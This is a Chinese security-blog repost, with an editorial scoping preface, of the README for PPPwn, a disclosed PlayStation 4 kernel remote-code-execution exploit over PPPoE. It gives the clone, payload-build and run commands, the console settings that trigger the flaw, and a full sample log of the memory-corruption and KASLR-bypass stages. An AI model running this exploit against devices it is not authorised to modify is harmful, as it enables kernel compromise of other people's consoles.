

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：局域以太网/PPPoE恶意对端、用户网络设置与测试交互，适配固件9.00/11.00；Linux工具端

- **结论使用边界（1）**：严重误分类CMS，应系统/硬件/游戏主机内核。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：标题至FW11.00但脚本只明确9.00和11.00支持，受影响范围与PoC支持版本应分开。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（3）**：远程并非一般互联网未交互攻击，物理网络/PPPoE与手动测试要求重要。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **来源与引用处置（4）**：日志是示范输出不是本库独立复现，repo未固定commit；宣传动态图与技术无关。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  PPPwn - PlayStation 4 至 FW 11.00 的内核远程代码执行漏洞   
 Ots安全   2024-05-01 17:59  
  
  
  
PPPwn 是适用于 PlayStation 4 至 FW 11.00 的内核远程代码执行漏洞。这是  
CVE-2006-4304  
的概念验证漏洞  
，已负责任地向 PlayStation 报告。  
  
支持的版本有：  
- 固件 9.00  
  
- 固件 11.00  
  
- 可以添加更多内容（欢迎 PR）  
  
该漏洞仅PPPwned  
作为概念验证打印在您的 PS4 上。为了启动 Mira 或类似的自制软件，stage2.bin  
需要调整有效负载。  
## 要求  
- ## 带以太网端口的计算机  
  
- USB 适配器也可以使用  
  
- 以太网电缆  
  
- Linux  
  
- 您可以使用 VirtualBox 创建一个 Linux VM，并将其Bridged Adapter  
作为网络适配器以使用 VM 中的以太网端口。  
  
- 安装了Python3和gcc  
  
## 用法  
## 在您的计算机上，克隆存储库：  
```
git clone --recursive https://github.com/TheOfficialFloW/PPPwn
```  
  
安装要求：  
```
sudo pip install -r requirements.txt
```  
  
编译有效负载：  
```
make -C stage1 FW=1100 clean && make -C stage1 FW=1100
make -C stage2 FW=1100 clean && make -C stage2 FW=1100
```  
  
对于其他固件，例如 FW 9.00，请传递FW=900  
。  
  
运行漏洞利用程序（请参阅 参考资料ifconfig  
获取正确的接口）：  
```
sudo python3 pppwn.py --interface=enp0s3 --fw=1100
```  
  
对于其他固件，例如 FW 9.00，请传递--fw=900  
。  
  
在你的 PS4 上：  
- 转到Settings  
然后Network  
  
- 选择Set Up Internet connection  
并选择Use a LAN Cable  
  
- 选择Custom  
设置并PPPoE  
选择IP Address Settings  
  
- 输入PPPoE User ID  
和的任何内容PPPoE Pasword  
  
- 选择  
和Automatic  
DNS Settings  
MTU Settings  
  
- 选择Do Not Use  
用于Proxy Server  
  
- 单击Test Internet Connection  
即可与您的计算机通信  
  
如果漏洞利用失败或 PS4 崩溃，您可以跳过互联网设置，只需单击Test Internet Connection  
。如果pppwn.py  
脚本卡在等待请求/响应，请中止它并在您的计算机上再次运行它，然后单击Test Internet Connection  
您的 PS4。  
  
如果该漏洞有效，您应该会看到类似于下面的输出，并且您应该会  
在 PS4 上看到Cannot connect to network.  
后面打印的内容。PPPwned  
  
  
  
  
### 运行示例  
```
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
```  
  
  
项目地址：  
  
https://github.com/TheOfficialFloW/PPPwn  
  
  
  
  
  
感谢您抽出  
  
  
  
.  
  
  
  
.  
  
  
  
来阅读本文  
  
  
  
**点它，分享点赞在看都在这里**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
